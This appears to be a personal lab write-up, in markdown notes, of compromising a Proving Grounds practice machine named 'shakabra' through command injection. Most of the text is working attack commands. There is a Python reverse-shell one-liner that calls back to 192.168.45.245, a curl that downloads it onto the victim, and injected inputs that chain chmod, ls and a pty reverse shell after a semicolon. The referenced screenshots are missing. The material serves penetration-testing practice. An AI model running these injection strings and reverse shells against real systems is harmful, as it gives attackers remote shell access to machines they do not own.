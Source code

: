 ### pentestmonkey.py
created `pentestmonkey.py`
```bash
┌──(root💀gobots)-[13Jan2025 23:06:31]-[/home/…/SUT/OSWA/proving_grounds/shakabra]
└─# cat pentestmonkey.py 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.245",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);          
```
pulled over to victim with `curl http://192.168.45.245/pentestmonkey.py -o /tmp/pentestmonkey.py`
![[Pasted image 20250113180901.png]]
proof was pulled over
![[Pasted image 20250113181003.png]]
making `executable` `192.168.45.245; chmod 755 /tmp/pentestmonkey.py`
![[Pasted image 20250113181129.png]]
making sure it became executable with `192.168.45.245; ls -la /tmp`
![[Pasted image 20250113181222.png]]
was unable to execute the `pentestmonkey.py` script with `192.168.45.245; python3 /tmp/pentestmonkey.py` in order to get it to work I had to just execute the script  utilizing the revshells
![[Pasted image 20250113182414.png]]
```python3
192.168.45.245; python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.245",80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```
got a `reverse shell`
![[Pasted image 20250113182440.png]]